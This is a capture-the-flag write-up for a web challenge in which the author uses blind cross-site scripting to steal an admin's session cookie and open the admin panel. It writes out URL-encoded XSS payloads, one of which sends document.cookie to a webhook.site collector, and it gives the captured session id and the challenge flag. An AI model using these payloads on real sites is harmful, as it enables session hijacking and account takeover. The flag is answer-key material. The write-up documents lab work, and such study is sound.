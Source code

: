# Bloggerade Challenge

**Points:** 200  
**Category:** Web  

![Initial State](screenshots/bloggerade1.png)

This application allows users to enter input, which is then reviewed by the admin. Situations like these often present opportunities for Blind XSS attacks to steal Session Cookies.

## Steps to Exploit

1. **Testing for XSS:**  
   Check for XSS by observing that the blogs have a Blog Number, reflected on the page. Try reflecting the Session ID in the `blogNumber` parameter using the input:  
   `%3Cscript%3Edocument.write(document.cookie);%3C/script%3E`  
   ![Blog Number XSS Test](screenshots/bloggerade2.png)
   ![Blog Number XSS Reflection](screenshots/bloggerade3.png)

2. **Executing Blind XSS:**  
   Set up a platform to catch requests/responses at [https://webhook.site](https://webhook.site).  
   **Payload:** `2%22%3E%3Cimg%20src=x%20onerror=this.src=%27https://webhook.site/481ad6c7-c027-4329-9062-0225dc0e8044/?%27%2bdocument.cookie;%3E`  
   **Parameter:** `blogNumber`  
   After executing, the cookies are captured.  
   ![Captured Cookies](screenshots/bloggerade4.png)

3. **Using URL as Payload:**  
   Change the input type of `url` from URL to text to enter the payload.  
   **Payload:** `http://18.225.156.202:9090/blog?blogNumber=2%22%3E%3Cimg%20src=x%20onerror=this.src=%27https://webhook.site/481ad6c7-c027-4329-9062-0225dc0e8044/?%27%2bdocument.cookie;%3E`  
   **Parameter:** `url`  
   ![URL Payload Entry](screenshots/bloggerade5.png)
   ![URL Payload Result](screenshots/bloggerade6.png)  
   The session id `admincokie123thiswillallowyoutogototheadminpanel` is obtained.  

4. **Accessing Admin Panel:**  
   Use the captured session id in place of your own to access the admin's session. Then click on "Admin Panel".  
   ![Access Admin Panel](screenshots/bloggerade7.png)  
   ![Admin Panel Accessed](screenshots/bloggerade8.png)

## Flag

`Amazon{XSS_b0t_G0t_Pwn3d}`
